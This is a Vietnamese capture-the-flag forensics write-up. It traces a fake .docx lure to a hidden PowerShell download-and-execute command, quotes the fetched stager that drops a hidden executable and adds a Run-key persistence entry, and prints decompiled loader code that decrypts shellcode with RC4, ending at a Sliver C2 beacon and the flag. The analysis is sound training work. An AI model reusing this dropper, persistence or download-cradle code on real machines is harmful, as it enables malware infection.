# _Silver Moon_ _(Forensics)_



Ban đầu mình nhận được một yêu cầu chạy trực tiếp 1 file `.docx` thông qua đường link trong `File Explorer`



Thực hiện theo yêu cầu, thì thấy file kích hoạt `powershell` nháy phát rồi tắt. Mình đoán nó đã thực thi thứ gì đó trên máy mình, nên mình sẽ thực hiện check trong `Event Viewer` cụ thể là ở log `Sysmon` hoặc `Powershell` xem có gì đáng ngờ không



Thấy được một `Process create` kích hoạt `powershell` với câu lệnh sau

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1') # C:\HR\Application.docx
```

Dễ dàng thấy đoạn mã trên thực hiện tải và chạy mã độc từ `Internet` bằng `PowerShell`, trong chế độ ẩn và bỏ qua bảo mật. Mình liền lấy đường link ra truy cập thử và có được nội dung sau

```powershell
$SAlaAox = $kXVWlUwNPEw
$hLXHNNQnb = [Convert]::FromBase64String($SAlaAox)
$geMBPeaVORuLk = [System.Text.Encoding]::UTF8.GetString($hLXHNNQnb)
$geMBPeaVORuLk = ConvertFrom-Json $geMBPeaVORuLk

$ZhWOQbu = 'J1Csum3Dcj'
$ALMVCnyJSuzBnE = Join-Path $env:USERPROFILE (('DocumentsG1tJ1Csum3Dcj') -creplace 'G1t','\')

if (-not (Test-Path $ALMVCnyJSuzBnE)) {
    New-Item -ItemType Directory -Path $ALMVCnyJSuzBnE | Out-Null
    (Get-Item $ALMVCnyJSuzBnE).Attributes += 'Hidden','System'
}

foreach ($file in $geMBPeaVORuLk.aixrdrPVmiaT) {
    $p = Join-Path $ALMVCnyJSuzBnE $file.bHSoyPyFwZgB
    [IO.File]::WriteAllBytes($p, [Convert]::FromBase64String($file.PthYIs))
}

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$EHPoSQvgWxy = [IO.Path]::ChangeExtension([IO.Path]::GetTempFileName(), 'cmd')
[IO.File]::WriteAllText($EHPoSQvgWxy, (
    '@echo off
    start "" /b "%USERPROFILE%\Documents\J1Csum3Dcj\update.exe"
    del "%~f0"'
))

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

Set-ItemProperty -Path ('HKCU:\Software\Microsoft\Windows\CurrentVersion\Run') `
    -Name 'lAoprv' `
    -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$ws = New-Object -ComObject WScript.Shell
$ws.Run($EHPoSQvgWxy, 0, $false)

Remove-Item $MyInvocation.MyCommand.Path -Force
```
- Đầu tiên thực hiện decode b64 hàm `kXVWlUwNPEw` ghi ra file `update.exe`
- Thực thi file, ẩn file
- Thiết lập cơ chế `persistance`: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\lAoprv = update.exe path`. Mình có thể thấy sự xuất hiện của hoạt động này trong `autoruns` ~~Disable ngay nha~~              
- File `update.exe` được lưu tại `USERPROFILE\Documents\J1Csum3Dcj\`

Mình bắt đầu thực hiện việc `debug` tĩnh malware và đây là hàm `main`

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int ticks; // ebx
  int v4; // ebx
  __m128i si128; // xmm2
  char *v6; // rdx
  __m128 v7; // xmm3
  unsigned int v8; // ecx
  unsigned int v9; // eax
  __m128i v10; // xmm0
  __m128i v11; // xmm1
  __m128i v12; // xmm0
  __m128i v13; // xmm1
  __m128i v14; // xmm0
  __m128i v15; // xmm0
  __m128i v16; // xmm0
  __m128i v17; // xmm1
  __m128i v18; // xmm1
  unsigned __int8 v19; // r8
  char *v20; // r10
  int v21; // r9d
  char v22; // r11
  unsigned __int8 v23; // di
  __int64 i; // r11
  char v25; // r10
  __int64 v27; // [rsp+20h] [rbp-128h] BYREF
  _BYTE v28[4]; // [rsp+30h] [rbp-118h] BYREF
  char v29; // [rsp+34h] [rbp-114h] BYREF
  DWORD flOldProtect; // [rsp+130h] [rbp-18h] BYREF

  v27 = 5;
  ticks = Xtime_get_ticks();
  sub_140001320(&v27);
  if ( (double)(int)(Xtime_get_ticks() - ticks) / 10000000.0 <= 4.5 )
    exit(0);
  v4 = 0;
  flOldProtect = 0;
  if ( !VirtualProtect(&loc_140001520, 0xA82EDCu, 0x40u, &flOldProtect) )
  {
    GetLastError();
    sub_140001010("Error: %d");
  }
  si128 = _mm_load_si128((const __m128i *)&xmmword_140A862C0);
  v6 = &v29;
  v7 = (__m128)_mm_load_si128((const __m128i *)&xmmword_140A862D0);
  v8 = 8;
  do
  {
    v6 += 16;
    v9 = v8 + 4;
    v10 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 8), 0), si128), v7);
    v11 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 4), 0), si128), v7);
    v12 = _mm_packus_epi16(v10, v10);
    v13 = _mm_packus_epi16(v11, v11);
    *((_DWORD *)v6 - 5) = _mm_cvtsi128_si32(_mm_packus_epi16(v12, v12));
    *((_DWORD *)v6 - 4) = _mm_cvtsi128_si32(_mm_packus_epi16(v13, v13));
    v14 = _mm_cvtsi32_si128(v8);
    v8 += 16;
    v15 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(v14, 0), si128), v7);
    v16 = _mm_packus_epi16(v15, v15);
    v17 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v9), 0), si128), v7);
    *((_DWORD *)v6 - 3) = _mm_cvtsi128_si32(_mm_packus_epi16(v16, v16));
    v18 = _mm_packus_epi16(v17, v17);
    *((_DWORD *)v6 - 2) = _mm_cvtsi128_si32(_mm_packus_epi16(v18, v18));
  }
  while ( (int)(v8 - 8) < 256 );
  v19 = 0;
  v20 = v28;
  v21 = 0;
  do
  {
    v22 = *v20;
    v19 += *v20 + aAdvapi32Dll[v21++ % 0xCu];
    *v20++ = v28[v19];
    v28[v19] = v22;
  }
  while ( v21 < 256 );
  v23 = 0;
  for ( i = 0; i < 11022044; ++i )
  {
    v4 = (v4 + 1) % 256;
    v25 = v28[v4];
    v23 += v25;
    v28[v4] = v28[v23];
    v28[v23] = v25;
    *((_BYTE *)&loc_140001520 + i) ^= v28[(unsigned __int8)(v25 + v28[v4])];
  }
  VirtualProtect(&loc_140001520, 0xA82EDCu, flOldProtect, &flOldProtect);
  ((void (*)(void))loc_140001520)();
  return 0;
}
```
- Thấy được đây là một con `malware` có dấu hiệu của việc chống `sandbox\debug`. Sau đó cấp quyền `read/write/excecute` cho vùng nhớ `loc_140001520` bằng `VirtualProtect`


- Dùng thuật toán key scheduling kiểu RC4 để sinh S-box với `key` là `advapi32.dll`
- Dùng `RC4 key stream` thực hiện `xor` với `loc_140001520`

Xác định vùng nhớ `loc_140001520` ban đầu:



Tiến hành debug bằng cách đặt `breakpoint` sau vòng `for` tức là vùng `loc_140001520` được `decrypt` xong



Chạy xong thấy vùng `loc_140001520` đã bị thay đổi so với ban đầu.



Chuyển sang chế độ `hex dump` để xem, mình thấy sự xuất hiện của 1 file thực thi khác tại đây nên khả năng cao là shellcode đã được `decrypt` đúng



Mình tiến hàng dump vùng này về bằng tay. Vì dump bằng tay nên khả năng cao file sẽ bị thiếu hoặc kh được chuẩn (mình cũng kh biết nữa vì trình `reverse` mà động đến `debug` như này mình khá kém)



Đến đây mình vứt vào `IDA` và sau đó là kh biết làm gì tiếp theo, nên mình tiến hành chạy thử trong `VM` nhưng kh chạy được (chắc do mình dump thiếu)



Vì kh biết làm gì tiếp nên mình thử strings bừa thì thấy được 1 số dữ kiện quan trọng



Cụ thể hơn thì đây khả năng là danh sách các tên `file/source` được nhúng trong `.rdata` section của một binary được build từ `GO`. Điều này rất thường thấy ở `malware` được viết bằng GO, nhất là các `implant` từ `Silver C2`. Vì liên quan đến `Silver C2` nên mình tiến hành check thử một số kí tự đặc trưng như `http`



Thấy được 1 đường link `https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=`, tiến hành decode b64 ta nhận được flag

FLAG: `wwf{f1l3f1x_t0_sl1v3r_b34c0n}`
